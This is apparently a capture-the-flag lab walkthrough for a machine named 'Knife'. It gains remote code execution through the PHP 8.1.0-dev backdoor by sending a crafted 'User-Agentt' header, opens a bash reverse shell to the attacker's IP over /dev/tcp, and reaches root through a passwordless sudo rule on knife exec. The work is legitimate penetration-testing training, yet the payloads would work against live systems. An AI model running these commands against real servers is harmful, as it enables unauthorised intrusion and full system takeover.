

Exploitation Summary
Exploitation process: The target machine was running a web server with PHP version 8.1.0-dev, which contained a deliberate backdoor that was introduced by attackers. This backdoor allowed remote code execution by sending a specially crafted HTTP header User-Agentt (note the double 't') containing the command to execute wrapped in the format zerodiumsystem('command');.
By exploiting this backdoor, I obtained initial access as the user james. The privilege escalation was straightforward - the user had sudo permissions to execute /usr/bin/knife without a password. Knife is a command-line tool from Chef Workstation that runs on Ruby and has the ability to execute arbitrary Ruby code.
Using the knife exec -E command with the Ruby system() function, I was able to execute commands as root and obtain a root shell.
Technologies/Exploits: PHP 8.1.0-dev backdoor remote code execution, Chef Knife privilege escalation via sudo misconfiguration and Ruby code execution.
Initial Reconnaissance
I start with an nmap scan to identify open ports and running services on the target machine:

The scan reveals two open ports: SSH on port 22 and HTTP on port 80. The web server is running Apache 2.4.41 on Ubuntu, and most importantly, it's running PHP version 8.1.0-dev, which immediately catches my attention due to the development tag.
Web Application Enumeration
Running whatweb provides additional details about the web application:
whatweb http://10.129.14.34The output confirms:
http://10.129.14.34 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.14.34],
PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]The web application appears to be related to healthcare/medical services. I perform directory enumeration to discover additional resources, but only find standard files like .htaccess, .htpasswd, and the main index.php page. Nothing particularly interesting emerges from the enumeration itself.
Vulnerability Research - PHP 8.1.0-dev Backdoor
The -dev tag in the PHP version immediately raises suspicion. Development versions are not typically deployed in production environments. After searching online, I discover a critical vulnerability related to this specific version.
I find detailed information in this GitHub repository: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/README.md
Understanding the Backdoor
It turns out that this PHP version was released with an intentionally embedded backdoor. The backdoor was quickly discovered and removed, but not before it was distributed. For more technical details about how the backdoor was introduced, you can read this analysis: https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914
The exploitation mechanism is remarkably simple. The backdoor allows remote code execution by sending a specially crafted HTTP header:
User-Agentt: zerodiumsystem('command');Note that the header name is User-Agentt with a double 't', not the standard User-Agent header. The command to execute is wrapped in the zerodiumsystem() function.
Initial Access - Exploiting the PHP Backdoor
I test the backdoor by sending a simple command to list the root directory:
curl -X GET "http://10.129.14.34/index.php" -H "User-Agentt: zerodiumsystem('ls');"The output confirms that the backdoor is active and I have code execution:
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
(...) Rest of HTMLThe command executed successfully, displaying the directory listing before the HTML content of the page. Now that I've confirmed remote code execution, I can proceed to gain a proper shell.
Establishing a Reverse Shell
I set up a netcat listener on my attacking machine:
nc -lvnp 443Then I send a reverse shell payload through the backdoor:
curl -X GET "http://10.129.14.34/index.php" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.16.6/443 0>&1\"');"I successfully receive the reverse shell connection and gain access as the james user. I can now retrieve the user flag from /home/james/user.txt.
Privilege Escalation - Knife Sudo Misconfiguration
After stabilizing the shell, I check what sudo privileges the james user has:
sudo -lThe output reveals an important finding:
Matching Defaults entries for james on knife:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on knife:
(root) NOPASSWD: /usr/bin/knifeThe user can execute /usr/bin/knife as root without providing a password. Let me investigate what this binary actually is:
file /usr/bin/knifeThe output shows it's a symbolic link:
/usr/bin/knife: symbolic link to /opt/chef-workstation/bin/knifeUnderstanding Knife
I examine the actual knife binary to understand what it does:
cat /opt/chef-workstation/bin/knifeThe file reveals it's a Ruby script:
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
(...)Knife is a command-line tool from Chef Workstation, written in Ruby. I verify the Ruby version:
/opt/chef-workstation/embedded/bin/ruby --versionOutput:
ruby 2.7.2p137 (2020-10-01 revision 5445e04352) [x86_64-linux]GTFOBins Research
I search GTFOBins for privilege escalation techniques involving knife: https://gtfobins.org/gtfobins/knife/#inherit
Since knife is essentially a Ruby script, it can execute arbitrary Ruby code. GTFOBins shows that I can use the exec command to run Ruby code, which can then execute system commands.
Testing Command Execution
I test if I can execute commands as root using knife's ability to execute Ruby code with the system() function:
sudo knife exec -E 'system("id")'The command successfully executes as root:
uid=0(root) gid=0(root) groups=0(root)Gaining Root Access
Now that I've confirmed I can execute commands as root, I spawn a root shell:
sudo knife exec -E 'system("/bin/bash")'This grants me a root shell:
root@knife:/opt/chef-workstation# whoami
rootI now have full root access to the system and can retrieve the root flag from /root/root.txt, completing the machine.